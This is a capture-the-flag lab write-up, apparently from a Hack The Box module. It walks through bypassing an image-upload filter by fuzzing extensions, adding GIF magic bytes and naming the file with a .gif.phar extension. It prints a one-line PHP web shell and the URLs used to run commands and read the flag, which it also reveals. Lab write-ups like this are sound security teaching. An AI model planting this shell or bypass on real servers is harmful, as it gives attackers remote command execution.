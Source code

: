 ## Challenge

The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt" 

## Solution

As in **Lab.5** I tried the Sniper Attack by using the `payloadallthethings` for the php extensions, and in the same way I found out that the `.phar` extension is among some extensions that gets the response `File successfully uploaded` while the other extensions get a `Extension not allowed`.

The difference is that now when I try to upload the shell `<?php system($_REQUEST['cmd']); ?>` with the filename `.phar.jpg` it shows `Only images are allowed`, so it doesn't work that way, and there is a possibility that it checks the `Mime-Type`.

Let's add the `gif` extension magic bytes `GIF87a` at the start of the file and the filename with the extension `.gif.phar`, and we got a `File successfully uploaded`.

Now if we go to `http://94.237.54.190:31723/profile_images/cat.gif.phar?cmd=whoami` we have the answer `GIF8 www-data`.

Then by going to `/profile_images/cat.gif.phar?cmd=cat%20../../../../flag.txt` we have the flag `GIF8 HTB{m461c4l_c0n73n7_3xpl0174710n}`.



